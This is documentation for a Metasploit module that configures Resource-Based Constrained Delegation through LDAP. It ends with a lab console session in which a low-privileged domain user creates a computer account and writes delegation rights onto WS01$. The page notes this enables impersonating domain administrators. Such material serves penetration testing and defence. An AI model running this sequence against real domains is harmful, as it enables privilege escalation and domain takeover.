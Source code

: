 ## Vulnerable Application

This module can read and write the necessary LDAP attributes to configure a particular object for Role Based Constrained
Delegation (RBCD). When writing, the module will add an access control entry to allow the account specified in
DELEGATE_FROM to the object specified in DELEGATE_TO. In order for this to succeed, the authenticated user must have
write access to the target object (the object specified in DELEGATE_TO).

## Verification Steps

1. Set the `RHOST` value to a target domain controller
2. Set the `BIND_DN` and `BIND_PW` information to an account with the necessary privileges
3. Set the `DELEGATE_TO` and `DELEGATE_FROM` data store options
4. Use the `WRITE` action to configure the target for RBCD

## Actions

### FLUSH
Delete the security descriptor. Unlike the REMOVE action, this deletes the entire security descriptor instead of just
the matching ACEs.

### READ
Read the security descriptor and print the ACL contents to identify objects that are currently configured for RBCD.

### REMOVE
Remove matching ACEs from the security descriptor DACL. Unlike the FLUSH action, this only removes the matching ACEs
instead of deleting the entire security descriptor.

### WRITE
Add an ACE to the security descriptor DACL to enable RBCD. The new entry will be appended to the ACL after any existing
ACEs. No changes are made to the security descriptor if the ACE to enable RBCD already exists.

## Options

### DELEGATE_TO
The delegation target. This is the object whose ACL is the target of the ACTION (read, write, etc.). The authenticated
user must have write access to this object.

### DELEGATE_FROM
The delegation source. This is the object which is added to (if action is WRITE) or removed from (if action is REMOVE)
the delegation target.

## Scenarios

### Window Server 2019 Domain Controller
In the following example the user `MSFLAB\sandy` has write access to the computer account `WS01$`. The sandy account is
used to add a new computer account to the domain, then configures WS01$ for delegation from the new computer account.

The new computer account can then impersonate any user, including domain administrators, on `WS01$` by authenticating
with the Service for User (S4U) Kerberos extension.

```
msf6 auxiliary(admin/dcerpc/samr_computer) > show options 

Module options (auxiliary/admin/dcerpc/samr_computer):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   COMPUTER_NAME                       no        The computer name
   COMPUTER_PASSWORD                   no        The password for the new computer
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The target port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   ADD_COMPUTER  Add a computer account


msf6 auxiliary(admin/dcerpc/samr_computer) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/dcerpc/samr_computer) > set SMBUser sandy
SMBUser => sandy
msf6 auxiliary(admin/dcerpc/samr_computer) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(admin/dcerpc/samr_computer) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Using automatically identified domain: MSFLAB
[+] 192.168.159.10:445 - Successfully created MSFLAB\DESKTOP-QLSTR9NW$
[+] 192.168.159.10:445 -   Password: A2HPEkkQzdxQirylqIj7BxqwB7kuUMrT
[+] 192.168.159.10:445 -   SID:      S-1-5-21-3402587289-1488798532-3618296993-1655
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/samr_computer) > use auxiliary/admin/ldap/rbcd 
msf6 auxiliary(admin/ldap/rbcd) > set BIND_DN sandy@msflab.local
BIND_DN => sandy@msflab.local
msf6 auxiliary(admin/ldap/rbcd) > set BIND_PW Password1!
BIND_PW => Password1!
msf6 auxiliary(admin/ldap/rbcd) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/ldap/rbcd) > set DELEGATE_TO WS01$
DELEGATE_TO => WS01$
msf6 auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] The msDS-AllowedToActOnBehalfOfOtherIdentity field is empty.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/rbcd) > set DELEGATE_FROM DESKTOP-QLSTR9NW$
DELEGATE_FROM => DESKTOP-QLSTR9NW$
msf6 auxiliary(admin/ldap/rbcd) > write
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] Successfully created the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/rbcd) > read
[*] Running module against 192.168.159.10

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[*] Allowed accounts:
[*]   DESKTOP-QLSTR9NW$ (S-1-5-21-3402587289-1488798532-3618296993-1655)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/rbcd) > 
```
